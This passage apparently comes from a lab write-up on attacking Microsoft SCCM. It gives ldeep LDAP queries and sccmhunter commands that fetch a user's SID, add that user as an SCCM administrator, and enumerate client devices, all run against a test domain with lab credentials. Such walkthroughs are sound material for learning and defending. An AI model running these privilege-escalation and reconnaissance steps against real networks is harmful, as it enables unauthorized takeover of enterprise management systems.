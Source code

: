 ```bash
ldeep ldap -u carol -p SCCMftw -d SCCM.lab -s ldap://192.168.33.10 search '(name=franck)' 'objectSid'
[{
  "dn": "CN=franck,CN=Users,DC=sccm,DC=lab",
  "objectSid": "S-1-5-21-3544182104-1320166847-3102157022-1117"
}]
```

- Add franck as admin

```bash
python3 sccmhunter.py admin -u carol@sccm.lab -p 'SCCMftw' -ip 192.168.33.11 -debug
() (C:\) >> add_admin franck S-1-5-21-3544182104-1320166847-3102157022-1117
```

![add_admin_sccmhunter.png](/assets/blog/SCCM/add_admin_sccmhunter.png)

## recon-4 - CMPivot - query client devices

- First retrieve the computer list

```bash
ldeep ldap -u carol -p SCCMftw -d SCCM.lab -s ldap://192.168.33.10 computers 
```

![list_computers.png](/assets/blog/SCCM/list_computers.png)

- And than show the devices in sccmhunter

```bash
python3 sccmhunter.py admin -u carol@sccm.lab -p 'SCCMftw' -ip 192.168.33.11 -debug
() (C:\) >> get_device CLIENT
```
